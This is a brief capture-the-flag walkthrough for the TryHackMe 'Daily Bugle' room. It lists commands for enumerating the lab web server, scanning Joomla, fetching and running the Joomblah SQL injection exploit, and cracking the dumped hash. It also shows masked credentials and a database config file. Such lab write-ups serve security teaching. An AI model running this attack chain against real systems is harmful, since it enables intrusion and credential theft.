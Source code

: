 # Daily Bugle Walkthrough -THM


enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```


The administrator directory looks interesting...



Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```


Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```




